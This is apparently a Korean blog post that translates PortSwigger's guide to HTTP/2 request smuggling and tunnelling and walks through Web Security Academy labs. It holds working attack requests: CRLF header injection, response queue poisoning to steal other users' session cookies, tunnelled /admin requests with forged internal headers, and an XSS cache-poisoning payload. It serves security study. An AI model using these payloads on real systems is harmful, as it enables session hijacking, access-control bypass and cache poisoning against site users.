




PortSwigger의 [Advanced request smuggling](https://portswigger.net/web-security/request-smuggling/advanced)를 번역, 정리하였습니다.

이전에 소개드린 [HTTP request smuggling]()을 HTTP/2 환경에서 수행하는 방법을 알아보겠습니다.


# 📌 01. 개요

HTTP/2는 바이너리 기반 프로토콜로, 각 헤더의 경계가 오프셋에 따라 구분되며 헤더의 이름은 한 바이트 안에 포함됩니다. HTTP/2 헤더를 나타내기 위해 `:Header` 와 같이 의사(pseudo) 헤더를 사용하나 실제 패킷에는 Colon(:)이 포함되지 않습니다.

```text
:method        |    POST
:path          |    /login
:authority     |    test.com
:scheme        |    applicataion/x-www-form-urlencoded
user-agent     |    brow

a=test&b=2
```

각 헤더의 길이는 패킷 바이너리의 필드에 명시되어 있어 End-to-End HTTP/2 사용 시 Smuggling 공격은 수행할 수 없습니다. **그러나 Back-end 서버에서 HTTP/1.1 로 다운그레이드 되는 경우 Smuggling에 취약할 수 있습니다.**


# 📌 02. HTTP/2에서의 Request smuggling 취약점

## 🔸 02-01. H2.CL 취약점

HTTP/2는 길이를 텍스트로 명시할 필요가 없으나 HTTP/1.1로 다운그레이드 되는 경우, Front-end 서버에서 Content-Length 헤더를 붙이는 경우가 많습니다.
또한, HTTP/2 패킷에 Content-Length 헤더가 사용될 수 있는데 이는 Back-end 서버에서 재사용되며 HTTP/2의 Content-Length 헤더는 바이너리 필드에 명시된 길이와 동일해야 하지만 항상 검증되는 것은 아닙니다. 이를 이용하여 HTTP/2 패킷에 Content-Length 헤더를 추가/조작하고 패킷을 Smuggling 할 수 있습니다. 

아래와 같이 HTTP/2 헤더에 Content-Length를 0으로 추가한 후 /admin 페이지를 요청하는 패킷을 Smuggling 합니다.

**✉ Front-end (HTTP/2)**
```text
:method         |    POST
:path           |    /example
:authority      |    test.com
content-type    |    applicataion/x-www-form-urlencoded
content-length  |    0

GET /admin HTTP/1.1
Host: test.com
Content-Length: 10

a=1
```
1) 패킷은 Front-end 에서 HTTP/1.1로 다운그레이드 되어 Back-end 서버로 전달되며 Content-Length가 0이므로 /admin 페이지 요청은 다음 패킷으로 인식됩니다.

2) /admin 페이지 요청 패킷의 Content-Length가 10인데 내용은 크기가 부족하므로 다음 패킷이 전달되길 Back-end 서버에서 대기하게 됩니다.

3) Back-end 서버에서 대기하던 패킷은 다음 요청 패킷과 결합되어 다음과 같은 형태를 갖게됩니다. 후속 패킷을 요청한 사용자는 강제로 admin 페이지에 접속하게됩니다. 

**✉ Back-end (HTTP/1)**
```
POST /example HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: tetst.com
Content-Length: 10

a=1GET / H
```

## 🔸 02-02. H2.TE 취약점

Transfer-Encoding 헤더는 HTTP/2 와 호환되지 않으며 제거할 것을 권장하고 있으나 **제거를 하지 않을 경우, Back-end 서버에서 Smuggling 공격에 취약해질 수 있습니다.** 

아래와 같이 패킷을 보낼 경우, 

**✉ Front-end (HTTP/2)**

```
:method            |    POST
:path              |    /example
:authority         |    test.com
content-type       |    applicataion/x-www-form-urlencoded
transfer-encoding| |    chunked

0

GET /admin HTTP/1.1
Host: test.com
foo:bar
```
1) 다운그레이드 된 패킷이 Back-end 에서 분할되고 뒷 부분의 Smuggling 된 /admin 페이지 요청 패킷이 다음 요청을 대기하게 됩니다. 

2) 임의의 후속 패킷이 도착하면 대기하고 있던 패킷과 결합되어 /admin 페이지를 응답하게 됩니다. 결합된 패킷은 다음과 같은 형태가 됩니다.

**✉ Back-end (HTTP/1)**

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

> H2.CL, H2.TE에 취약할 경우 이전 HTTP/1.1 에서 사용했던 공격 방법을 그대로 사용할 수 있습니다.

## 🔸 02-03. Response queue poisoning

Response queue Poisioning은 완전한 형태의 요청 패킷을 Smuggling하여 타 사용자가 요청 패킷을 보냈을 때 이전의 응답 패킷을 전송토록 하는 공격입니다. 해당 공격을 수행하여 타 사용자의 응답 패킷과 패킷 내의 세션 값, 중요 정보 등을 볼 수 있습니다. 또한 공격을 받고 한동안 웹 사이트의 사용자들이 요청에 대한 엉뚱한 응답 패킷을 받게 되므로 가용성에 영향을 끼치게 됩니다.

Response queue Poisioning은 3가지 조건이 필요합니다.
>
- Front-end와 Back-end 간의 연결은 여러 요청/응답에 재사용됩니다.
- Back-end에서 타인과 구별할 수 있는, 고유한 응답을 받을 수 있도록 요청 패킷을 Smuggling 할 수 있습니다.
- 잘못된 요청이 Front, Back-end 서버에 전송되더라도 연결이 종료되지 않아야 합니다.

2개의 완전한 요청 패킷을 Smuggling하면 후속 요청이 이전의 응답 패킷을 받게 되고 타 사용자의 응답 패킷 내용(세션, 본문 등)이 노출됩니다. Smuggling 패킷을 보내면 Front-end와 Back-end에서 아래와 같은 형태가 됩니다. (HTTP/1.1을 이용해 설명)


**✉ Front-end (CL)**
```
POST / HTTP/1.1\
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 61
Transfer-Encoding: chunked

0

GET /anything HTTP/1.1
Host: vulnerable-website.com

GET / HTTP/1.1
Host: vulnerable-website.com
\r\n
```
**✉ Back-end (TE)**
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 61
Transfer-Encoding: chunked

0

GET /anything HTTP/1.1
Host: vulnerable-website.com

GET / HTTP/1.1
Host: vulnerable-website.com
\r\n
```

이를 단계적으로 보자면,
공격자는 Request 1과 Request 2를 Smuggling 하여 Response queue를 Poisioning 상태로 만든 후 Request 4를 보내어 타 사용자가 보낸 Request 3 의 응답 값을 볼 수 있습니다. 도식화 하면 아래와 같습니다.


> 연결이 유지되는 동안(보통 100개의 요청/응답) 다음 사용자의 응답 패킷을 받게됩니다. 


## 🔸 02-04. CRLF 인젝션을 이용하여 Request smuggling 

content-length , transfer-encoding 헤더를 필터링하여 H2.CL,  H2.TE 공격을 방지하더라도 **Front-end 서버와 Back-end 서버 간의 newline(\n) 에 대한 처리가 일치하지 않을 경우 취약점이 발생합니다.**

Front-end 서버가 newline(\n)을 문자로 처리하고 Back-end 서버가 구분자로 처리할 경우, Front-end 서버는 Smuggling 되는 패킷을 알 수 없습니다. 이는 **HTTP/2 가 문자열이 아닌 바이너리 기반으로 동작하기 때문에 '\r\n' 을 인식하지 못하여 발생합니다.**

요청 시 헤더의 값으로 아래와 같이 입력하여 전송하면,

✉ **Front-end**

```
# Header
Foo: bar\r\nTransfer-Encoding: chunked
```

Back-end에서 아래와 같이 다운그레이드 됩니다.

✉ **Back-end**

```
# Header
Foo: bar
Transfer-Encoding: chunked
```


## 🔸 02-05. HTTP/2 Request 분할

HTTP/2 다운그레이드가 이루어지고 있을 때 헤더에서 분할이 발생하도록 패킷을 구성 할 수 있습니다. 본문을 꼭 포함 하지 않아도 되므로 요청 메서드에 제한받지 않아 더 다양한 공격이 가능합니다. 

예를 들어 GET 요청을 사용할 수도 있습니다. 이는 ‘Content-Length’가 검증되고 Back-end 서버가 ‘Tranfer-Encoding: chunked’ 를 지원하지 않는 경우에도 유용합니다. 

```
:method    |    GET
:path	   |    /example HTTP/1.1\r\nTransfer-Encoding: chunked\r\nX: x
:authority |    test.com
foo        |    bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

## 🔸 02-06. Front-end의 재작성 방식을 고려하여 Request 분할

헤더에서 CRLF(\r\n) 인젝션을 이용해 Request를 분할하려면 Front-end의 Request 재작성 방식을 고려해야하며 필요한 헤더를 수동으로 추가해야 합니다.

예를 들어, Back-end에서는 수신한 두 Request 모두 Host 헤더가 필요한 경우 Smuggling 공격 시 Front-end 에서 재작성되는 방식을 고려하여 Host 헤더가 누락되지 않도록 해야 합니다.

보통 Front-end에서는 `:authority` 헤더를 제거하고 헤더 목록 끝에 Host 헤더를 추가합니다.

아래 패킷에서 foo 헤더 다음에 Host 헤더가 추가되면 래퍼 패킷에는 Host 헤더가 존재하지 않고 Smuggling 패킷에는 Host 헤더가 2개 존재하게 되어 에러가 발생합니다. 

```
:method      |    GET
:path	     |    /
:authority   |    test.com
foo          |    bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: test.com
```

다음과 같이 조정하여 Host 헤더가 추가되더라도 에러가 나지 않도록 해야 합니다.

```
:method      |    GET
:path	     |    /
:authority   |    test.com
foo          |    bar\r\n
Host: test.com\r\n
\r\n
GET /admin HTTP/1.1
```


# 📌 03. HTTP Request 터널링

HTTP Request Smuggling 공격은 Front-end와 Back-end를 잇는 하나의 연결이 여러 사용자의 요청을 처리하기 때문에 발생합니다. 
아래 그림과 같이 동일한 IP 또는 클라이언트 별로 다른 연결을 사용하여 요청을 처리하는 경우 타 사용자에 대한 공격을 수행하기 어렵습니다. 또한 Queue를 Poisioning하여 타 사용자의 요청을 방해할 수도 없습니다.


그러나 Smuggling을 이용해 하나의 패킷에 2개의 요청을 보낼 수 있으며 2개의 응답을 받을 수는 있습니다. 이때, Smuggling 된 요청의 응답은 래퍼 패킷 본문에 숨겨져 전달되므로 Front-end의 검증을 우회하여 패킷을 주고 받을 수도 있습니다. 

## 🔸 03-01. HTTP/2 Request 터널링

HTTP/1 과 HTTP/2 모두 공격은 가능하지만 HTTP/1의 경우 ‘keep-alive’ 헤더로 인해 실제 취약 여부를 판가름하기 힘듭니다. 양호하더라도 2개의 패킷이 묶여 응답되기 때문입니다.

HTTP/2는 1개의 스트림에 1개의 응답만이 전송될 수 있습니다. Smuggling 공격 후 HTTP/2 응답에 HTTP/1 응답으로 보이는 내용이 포함되었다면 공격에 성공한 것입니다.

## 🔸 03-02. HTTP/2 Request 터널링을 이용하여 내부 헤더 유출

터널링만 유효한 경우, HTTP/2 다운그레이드를 이용하여 내부에서 사용되는 헤더를 확인할 수 있습니다.

헤더에 CRLF(\r\n) 인젝션을 이용해 Content-Length 헤더와 Body에 해당되는 파라미터(comment)를 삽입합니다. 다운그레이드 되는 과정에서 Body 파라미터(comment)에 내부 헤더가 추가됩니다. (다운그레이드 되는 과정에서 추가되는 헤더는 보통 헤더 리스트의 맨 마지막에 추가됩니다.)
```
:method       |    POST
:path         |    /comment
:authority    |    vulnerable-website.com
content-type  |    application/x-www-form-urlencoded
foo           |    bar\r\n
Content-Length: 200\r\n
\r\n
comment=\r\n
\r\n
x=1 
```
Back-end 에서 삽입된 내부 헤더가 파라미터 값으로 인식되어 응답 페이지에 출력됩니다. 이는, Front-end와 Back-end에서 본문의 끝은 동일하게 보나, 헤더의 끝은 서로 다르게 인식하므로 발생하는 취약점입니다.

취약점이 존재할 경우 아래와 같은 응답을 받게됩니다.
```
POST /comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 200

comment=X-Internal-Header: secretContent-Length: 3
x=1
```

## 🔸 03-03. Blind Request 터널링

Front-end에서 응답의 Content-Length를 이용해 Body를 읽어들이는 경우, 공격자는 첫번째 응답의 크기(Wrapper 응답 패킷의 Content-Length) 만큼만 볼 수 있습니다.
Smuggling 된 요청의 응답을 볼 수 없으므로 요청의 성공 여부를 확인할 수 없습니다.

## 🔸 03-04. HEAD를 이용한 Non-blind request 터널링

HEAD 메소드를 이용하여 Blind 터널링을 Non-blind 터널링으로 전환 시킬 수 있습니다.

HEAD 요청에 대한 응답에는 Body가 없음에도 Content-Length 헤더가 포함되어 있는 경우가 있습니다. 이것은 동일 URL의 GET 요청에 대한 응답의 길이를 나타냅니다.
일부 Front-end는 HEAD 메소드 임에도 불구하고 Content-Length에 지정된 바이트 수에 관계없이 Body를 읽어 응답에 포함시키기도 합니다.

✉ **Request**
```
:method     |    HEAD
:path       |    /example
:authority  |    test.com
foo         |    bar\r\n
\r\n
GET /tunnelled HTTP/1.1\r\n
Host: test.com\r\n
X: x
```
✉ **Response**
```
:status         |    200
content-type    |    text/html
content-length  |    131

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 4286

<!DOCTYPE html>
<h1>Tunnelled</h1>
<p>This is a tunnelled respo
```

HEAD 응답 패킷의 Content-Length가 터널링하여 보려는 응답 패킷의 길이보다 짧은 경우, 잘려서 보이게 됩니다. 이때, 아래와 같은 방법을 사용할 수 있습니다.
> - 더 큰 길이를 반환하는 경로로 HEAD 요청을 합니다.
> - Content-Length 가 짧아 내용이 잘려 보인다면 파라미터의 값이 응답 페이지에 출력되는 URL에서 파라미터에 임의의 값을 채워 넣으며 HEAD 메소드로 요청합니다. 
파라미터 값이 길어짐에 따라 Content-Length의 길이도 길어져 터널링 된 내용이 더 보이게 됩니다.
> - Content-Length 가 너무 길어 응답이 오지 않는 경우(대기 상태), 내부에 삽입된 터널링 요청을 파라미터 값을 받아 응답에 출력하는 URL로 변경 후,
파라미터 값에 임의의 값을 입력하여 터널링 요청의 응답이 길어지도록 합니다. 딱 맞추거나 조금 넘는 경우 응답이 오게 됩니다.

## 🔸 03-05. HTTP/2 Request 터널링을 이용한 웹 캐시 Poisioning
터널링은 Smuggling 보다 공격 폭이 제한적이지만 **웹 캐시 Poisioning**을 수행할 수도 있습니다.
사용자의 입력을 응답 페이지에 출력시키는 페이지가 있다고 할 때, 아래와 같이 Content-Type이 ‘application/json’ 이더라도

```
HTTP/1.1 200 OK
Content-Type: application/json

{ "name" : "test<script>alert(1)</script>" }
[etc.]
```

해당 응답이 ‘text/html’ Content-Type 응답 패킷으로 래핑되어 출력될 경우 XSS, JavaScript 코드가 페이지에서 실행될 수 있습니다.
```
:status         | 200
content-type    | text/html
content-length  | 174

HTTP/1.1 200 OK
Content-Type: application/json

{ "name" : "test<script>alert(1)</script>" }
[etc.]
``` 
  
  
  
# 📌 04. 기타 HTTP/2 전용 공격 벡터

## 🔸 04-01. 헤더 이름 내 인젝션

HTTP/2 는 바이너리 기반 프로토콜이므로 헤더 이름 내에 `\r\n`, `:`을 사용할 수 있습니다. HTTP/1 에서는 헤더 이름의 끝, 헤더의 끝을 나타내므로 사용이 불가 합니다.

✉ **Front-end**

```
foo: bar\r\n
Transfer-Encoding: chunked\r\n
X:	ignore
```

✉ Back**-end**

```
Foo: bar\r\n
Transfer-Encoding: chunked\r\n
X: ignore\r\n
```

## 🔸 04-02. 의사 헤더 인젝션

HTTP/2 에서는 의사 헤더를 사용합니다. 의사 헤더는 이름 앞에 colon(:)이 붙습니다. HTTP/1 로 다운그레이드 될 때 헤더로 인식됩니다.

- `:method` - 요청 메소드
- `:path` - 요청 경로, 쿼리 스트링(매개변수)을 포함
- `:authority` - HTTP/1.1의 Host 헤더와 같은 기능
- `:scheme` - http 또는 https
- `:status` - 응답 상태 코드 (응답 패킷에서 사용)

## 🔸 04-03. 모호한 Host 헤더

HTTP/1의 host 헤더는 HTTP/2에서 `:authority` 로 대체되었지만 여전히 사용 가능합니다. Host 헤더 중복 에러를 우회 할 수 있으며 이를 이용해 다양한 공격을 수행할 수 있습니다.

## 🔸 04-04. 모호한 path 제공

2개의 `:path` 헤더를 사용할 수 있습니다. 두 경로의 접근 제어가 일치하지 않거나 충돌하는 경우, 접근 제어를 우회할 수 도 있습니다.

```
:method      |    POST
:path        |    /anything
:path	     |    /admin
:authority   |    test.com
```

## 🔸 04-05. 전체 요청 라인 인젝션

HTTP/2의 `:method` 헤더의 경우, HTTP/1 요청의 맨 처음에 기록됩니다. `:method` 헤더 값에 공백을 포함할 수 있는 경우, 다음과 같이 완전히 다른 요청을 삽입할 수 있습니다.

✉ **Front-end**

```
:method     |    GET /admin HTTP/1.1
:path       |    /anything
:authority  |    test.com
```

✉ **Back-end**

```
GET /admin HTTP/1.1 /anything HTTP/1.1
Host: vulnerable-website.com
```

## 🔸 04-06. URL prefix 삽입

HTTP/2 에서 `:scheme` 헤더에 임의의 값을 삽입하여 리다이렉션 시 타 사이트로 리다이렉션 시키는 등의 공격을 수행할 수 있습니다.

✉ **Request**

```
:method     |    GET
:path	    |    /anything
:authority	|    test.com
:scheme	    |    https://evil-user.net/poison?
```

✉ **Response**

```
:status	    |    301
location	|    https://evil-user.net/poison?:/test.com/anything/
```

## 🔸 04-07. Pseudo 헤더에 개행 문자 삽입

Pseudo 헤더 내에 개행문자 삽입 후 헤더를 추가할 수 있습니다.

**✉ Front-end**

```
:method    |    GET
:path	   |    /example HTTP/1.1\r\nTransfer-Encoding: chunked\r\nX: x
:authority |    test.com
```

**✉ Back-end**

```
GET /example HTTP/1.1
Transfer-Encoding: chunked
X: xHTTP/1.1
Host: test.com
\r\n
```  
# 📌 05. 활용 및 실습
### 💥 05-01. H2.TE Smuggling을 이용하여 Response queue poisoning (로그인하는 타 사용자의 패킷을 스니핑)

Response queue poisoning 공격 시 타 사용자가 로그인 등 중요 로직이나 중요 정보가 포함된 페이지를 요청한다면 공격자는 바로 후속 요청을 보내여 해당 사용자의 세션 정보나 중요 정보가 담긴 패킷을 받을 수 있습니다.

자신의 요청에 대한 응답과 Poisioning 된 응답을 더 쉽게 구별할 수 있도록 보내는 두 요청 모두에 존재하지 않는 경로를 사용하면 자신의 요청에는 일관되게 404 오류 응답을 받습니다. 타 사용자의 패킷은 200 정상 패킷을 받습니다.

> BurpSuite 사용 시 최상단의 **‘Repeater > Updata Content-Length 해제, Allow HTTP/2 ALPN override 설정’을** 해야 정상적으로 HTTP/2 를 사용할 수 있습니다.

**Step 1)** 아래 패킷을 연속 2회 전송하여 404 에러가 출력된다면 패킷이 Smuggling 된 것이므로 취약하다고 볼 수 있습니다.
```
POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Transfer-Encoding: chunked

0

SMUGGLED
```
**Step 2)** BurpSuite에서 공격을 수행하는 경우 Inspector에서 HTTP/2 로 전환 후 아래와 같이 패킷 내용을 작성하여 전송합니다.
```
POST /x HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
```

1회 전송 시 404 에러 페이지를 응답받습니다.


**Step 3)** 타 사용자가 패킷을 보내길 기다렸다가 공격자가 다시 정상 패킷을 보내면 타 사용자가 보낸 요청의 응답 페이지가 공격자에게 전송됩니다. 이 실습에서는 타 사용자가 로그인 후 '/my-account' 페이지로 리다이렉션 되는 페이지(302)를 받게되며 패킷의 세션을 탈취할 수 있습니다.

  
  
### 💥 05-02. CRLF 인젝션을 이용하여 Request smuggling

**Step 1)**: BurpSuite의 경우 Inspector에서 HTTP/2 로 전환 후 foo 헤더를 생성하여 아래와 같은 내용으로 패킷을 작성합니다. 패킷을 2회 연속 전송하여 404 에러페이지가 출력된다면 취약한 상태입니다.


Header name
```
foo 
```
Header value
```
bar\r\nTransfer-Encoding: chunked
```
Body
```
0

SMUGGLED
```

**Step 2)** Body 내용을 아래와 같이 바꾼 후 전송합니다. 200 응답 코드 확인 후 브라우저에서 공격 대상 메인페이지로 접속합니다.


**Step 3)** 404 에러가 출력될 경우, 다시 새로 고침 시 검색 결과에 타 사용자의 패킷이 노출됩니다. 검색 결과만 출력될 경우 다시 Smuggling 패킷을 보낸 후 타 사용자가 요청을 보내길 기다립니다. 브라우저에서 새로고침 후 404 에러가 출력되면 다시 새로고침 시 패킷 내용이 노출됩니다.

  
  
  
### 💥 05-03. CRLF 인젝션을 이용하여 HTTP/2 request splitting

**Step 1)** BurpSuite의 'Inspector > Request header' 에 foo 헤더 추가 후 아래 헤더 값을 삽입, 전송합니다.


Header name
```
foo
```
Header value
```
bar\r\n
\r\n
GET /404 HTTP/1.1
Host: ac751f831e0e344ec0835e6a00d600b0.web-security-academy.net
```
200 출력 시 Back-end 에서 Smuggling 된 패킷의 끝에 `\r\n` 이 붙으며 패킷이 2개로 분할 된 것으로 볼 수 있습니다. (HTTP/2 입장에서는 헤더의 끝이기 때문에 `\r\n`을 붙이며 다운그레이드 합니다.) Response queue 가 Poisioning 되어 응답이 한 칸 씩 밀리게 되었으며 홈페이지 이용 시 타 사용자의 로그인 응답 패킷을 무단으로 확인할 수 있습니다.


**Step 2)** 정상 패킷 전송 시 Response queue에서 한 칸 씩 밀린 패킷을 받게 됩니다. 
타 사용자의 로그인 응답인 302 리다이렉션 패킷을 확인 할 수 있으며 세션 값울 탈취합니다.


**Step 3)** 탈취한 세션 값을 이용하여 /admin 페이지에 접속 후 carlos 사용자를 삭제합니다. 


>
- 완전한 Request를 Smuggling 하는 방법도 있지만, 헤더를 삽입하여 접근제어를 우회하는 방법 또한 존재합니다. 
- 파라미터의 값이 Body에 출력되는 URL을 이용하여 패킷의 헤더가 파라미터에 입력되도록 하여 공격자가 출력되는 내용을 보고 내부에서 사용되는 헤더를 확인할 수 있습니다. 
  
### 💥 05-04. HTTP/2 Request 터널링을 이용하여 접근 제어 우회

**Step 1) 터널링 공격 가능 여부 확인**
메인 페이지 (/) GET 요청에 대하여 HTTP/2 요청으로 전환 후 아래와 같이 헤더를 생성한 후 전송하면 입력한 Host 헤더가 Back-end에서 유효하게 적용되는 것을 확인할 수 있습니다. 헤더의 값에는 CRLF(`\r\n`) 사용 시 에러가 발생하여 공격을 수행할 수 없는 상태입니다.

```
Header name: foo\r\nHost: test123
```


**Step 2) Smuggling 패킷 전송**

내부 admin 페이지 접근 시 사용하는 헤더를 확인해야 하므로 파라미터의 값이 응답 페이지에 출력되는 ‘검색 결과’ 페이지를 이용합니다.

‘GET /?search=test’ 와 같은 검색 요청을 POST 형식으로 전환, 전송하여 유효한지 확인합니다.
검색 결과가 출력되면 전송 프로토콜을 HTTP/2 로 전환, 전송하여 유효한지 확인합니다.
검색 결과가 출력되는 것을 확인한 뒤 아래와 같은 헤더를 생성하여 전송합니다.

Header name
```
foo:a\r\n
Content-Length: 200\r\n
\r\n
search=x
```
Header value
```
x
```

응답이 Time out 되는 경우, Content-Length가 커서(패킷 내용이 짧아서) 응답이 대기 중인 것이므로 아래와 같이 ‘Header value'에 값을 추가하여 전송합니다.

Header name

```
foo:a\r\n
Content-Length: 200\r\n
\r\n
search=x
```

Header value

```
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq
```

그러면 아래 그림과 같이 Front-end에서 다운그레이드하여 Back-end로 패킷 전송 시 추가되는 헤더들이 검색 결과 화면에 노출됩니다.


**Step 3)** 터널링을 통해 admin 페이지를 통째로 패킷에 포함시켜 가져와야 하므로 HEAD 메소드를 이용하는 것이 효율적입니다. (Non-blind tunneling)

이전 공격 패킷에서 `:method` 헤더의 값을 'HEAD'로, `:path` 헤더 값을 '/login' 으로 바꿉니다.
`:path`를 '/login' 으로 바꾸는 이유는 메인 페이지(/)의 경우 응답 페이지의 크기 (Content-Length)가 커서 '/admin' 페이지의 내용을 담고도 크기가 남아서 오류가 발생하기 때문입니다.

반환받으려는 페이지보다 작은 '/login' 페이지를 래퍼 패킷의 `:path` 로 설정하여 요청합니다.



**Step 4)** 응답 페이지 상에서 내부 헤더를 확인한 후 새로운 패킷에 아래와 같이 헤더를 생성, 변조하여 전송하면 '/admin' 페이지의 내용이 담긴 패킷을 받을 수 있습니다.
실습의 Key 인 carlos 계정 삭제 URL을 확인합니다.

Header name

```
foo:a\r\n
\r\n
GET /admin HTTP/1.1
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 5514667855738008
```


**Step 5)** carlos 계정 삭제 요청을 터널링 전송합니다. 에러가 발생하나 삭제는 정상적으로 실행됩니다.


 
 
### 💥 05-05. HTTP/2 요청 터널링을 이용한 웹 캐시 Poisioning

**Step 1) 취약 여부 확인**
아래와 같이 헤더 입력 후 요청하여 '/?x=test' 페이지 요청에 대한 응답으로 404 에러가 발생하는지 확인합니다.

Header name
```
:path
```
Header value
```
/?x=test\r\n
foo:a
```


**Step 2) Request 터널링 취약점 확인 및 실행**
아래와 같이 헤더 설정 후 HEAD 메소드로 요청하면 응답 페이지에서 터널링된 페이지의 내용이 출력됩니다. 단, 터널링되어 출력되는 페이지의 크기가 래퍼 패킷(HEAD 요청)의 원래 크기보다 커야 Time out 되지 않고 응답 받을 수 있습니다.

또한 응답 페이지의 Content-Type이 'text/html' 이므로 터널링 되는 페이지에 사용자의 입력 값이 인코딩되지 않고 출력된다면 Reflecte XSS 공격을 수행할 수도 있습니다.

Header name
```
:path
```
Header value
```
/?test=1 HTTP/1.1\r\n
Host: ac971f321f7050cbc0ab62e10039001d.web-security-academy.net\r\n
\r\n
GET /post?postId=3 HTTP/1.1\r\n
Foo: bar
```



터널링 공격 후 래퍼 패킷의 URL 인 **'/?test=1'** 페이지에 접속 시 캐시(Poisioning)된 페이지가 출력됩니다.




**Step 3) Reflected XSS 공격 수행 페이지 탐색**
**‘/resources’** 페이지에 접속할 경우 **‘/resouces/’** 페이지로 리다이렉션 되는 것을 이용합니다.
**‘/resources?testtest’** URL에 접속 시 응답 패킷(헤더 포함)에 사용자의 입력 값이 출력되는 것을 확인할 수 있습니다.


**Step 4) XSS 공격 수행 시도**
HEAD 메소드로 전환하여 **‘/resouces?<script\>alert(1)</script\>’** URL로 터널링되도록 패킷 전송 시 Content-Length가 부족하여 Timeout 되는 것을 확인할 수 있습니다.

이때, </script\> 뒤에 임의의 문자를 채워넣어 **'/?test=1'** 응답 페이지의 Content-Length 보다 크도록 만들어 줍니다.
 - **'/?test=1'** 의 Content-Length: 8607

Header name
```
:path
```
Header value
```
/?test=1 HTTP/1.1\r\n
Host: ac9b1f6d1fcb908bc1369d4a00060033.web-security-academy.net\r\n
\r\n
GET /resources?<script>alert(1)</script> HTTP/1.1\r\n
foo:x
```


**Step 5) 실제 터널링 수행** 
아래와 같이 '</script\>' 뒤에 임의의 문자를 다수 입력하여 터널링 된 요청의 응답 패킷이 8607 bytes가 되도록 해줍니다.

응답 패킷이 도착하고 페이지에 사용자의 입력이 포함되고 Content-Type이 text/html 이므로 '<script\>alert(1)<script\>' 이 동작하게 됩니다.

해당 래퍼 페이지(/?test=1)에 대한 웹 캐시가 Poisioning 되어 해당 페이지 접속 시에 XSS 공격 스크립트가 동작하게 됩니다.

Header name
```
:path
```
Header value
```
/?test=2 HTTP/1.1
Host: ac9b1f6d1fcb908bc1369d4a00060033.web-security-academy.net\r\n
\r\n
GET /resources?<script>alert(1)</script>vvvvvvvvvvvvvvvvvv... HTTP/2\r\n
foo: x
